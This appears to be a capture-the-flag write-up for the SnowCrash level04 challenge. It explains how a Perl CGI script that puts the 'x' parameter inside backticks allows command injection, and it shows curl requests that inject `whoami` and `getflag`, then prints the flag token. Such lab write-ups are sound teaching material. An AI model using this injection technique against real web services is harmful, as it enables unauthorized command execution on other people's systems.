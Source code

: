 # level04

## Hint

By logging into the VM, we notice a perl script in our home directory.

```shell-session
level04@SnowCrash:~$ ls -la level04.pl
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Just as in the previous level, the `setuid` bit is set on that file, meaning it's execution is constrained by the rights of its owner, who just so happens to be the user whom identity we are trying to usurp in order to access his flag.

## The script

Is as follows:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

What we can conclude from this file:
- it uses a [Common Gateway Interface](https://fr.wikipedia.org/wiki/Common_Gateway_Interface) to chat with a web server.
- `# localhost:4747` gives the location and port of the server, meaning `127.0.0.1:4747`.
- the subroutine `x` very clearly calls the `echo` command upon its first argument conveniently named `x` and redirects all output (namely stderr) to stdout.
- the call to `echo` is wrapped in between backticks, which suggests that the output is captured in order to print it through the Gateway.

So, if we send a mere string to that script, that string will be printed, and if we wrap a command between backticks and send it to the script, then that command's output will be printed.

## whoami

To test it we can run the following but notice something odd:

```shell-session
level04@SnowCrash:~$ ./level04.pl x=`whoami`
Content-type: text/html

level04
```

the `whoami` command displays **OUR** uid, instead of the supposed `flag04` file owner's one.

This is quite a troubling situation but a quick Google search `setuid on my perl script not working` leads us to [this](https://unix.stackexchange.com/questions/190740/why-is-the-suid-bit-having-no-effect-on-a-shell-or-perl-script) discussion which gives us a hint at *why* we are stuck in this situation:

> suid bit is disabled for scripts in most linux and unix distributions because it opens several security holes.

## server

Since this script is ran on the server mentionned previously, it would only make sense to test if the output is the same there:

```shell-session
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`whoami`'
flag04
```

Which is not the case and in order to understand why, we must inspect the configurations file of the server, and as for most config files, we find it under the `/etc` directory.

Namely: `/etc/apache2/sites-enabled/level05.conf`.

```shell-session
level04@SnowCrash:/etc/apache2/sites-enabled$ cat level05.conf
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04 # <---- important information
	<Directory /var/www/level04>
		Options +ExecCGI`
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```

And as the [apache conf manual](https://httpd.apache.org/docs/2.4/fr/mod/mod_suexec.html) states:
> The SuexecUserGroup directive allows you to specify a user and group for CGI programs to run as. Non-CGI requests are still processed with the user specified in the User directive.

So this setting, if enabled, allows for the execution of code with rights inherited from the designated *user* - *group* identity in the conf file.

# getflag

```shell-session
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
